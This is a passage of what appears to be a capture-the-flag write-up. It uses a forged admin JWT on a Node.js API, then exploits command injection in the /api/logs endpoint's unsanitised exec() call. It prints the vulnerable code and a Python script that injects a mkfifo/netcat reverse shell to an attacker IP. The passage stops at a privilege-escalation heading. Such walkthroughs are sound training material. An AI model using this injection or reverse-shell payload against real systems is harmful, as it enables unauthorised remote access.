Now we can use our Python script's accessPriv function to use the API as admin:

```py
# useAPI.py #
...

adminToken = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmZTU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjM2NjY5MzI2fQ.p4reWKcE5C8M7OJiA-niq1xaEEwt7vdOdJmZKV1rb7c"
print(accessPriv(adminToken))

# OUTPUT
{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}
```

Looking through the source code, we can see that the /api/logs is vulnerable to code injection:

```js
router.get('/logs', verifytoken, (req, res) => {
    const file = req.query.file;
    const userinfo = { name: req.user }
    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
})
```

We can use again our python script to trigger an RCE and get a reverse shell

```py
from urllib.parse import quote

adminToken = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmZTU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjM2NzMxMTI4fQ.6ch_Gtq_Dkmr3oTHl_Ef2f4T8yzQSsYiQGJn5jPd9RU"

my_ip = "10.10.15.47"
my_port = "1234"
revshell = quote(f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {my_ip} {my_port} >/tmp/f")

print(accessLogs(adminToken, f";{revshell}"))
```

## Priviledge escalation
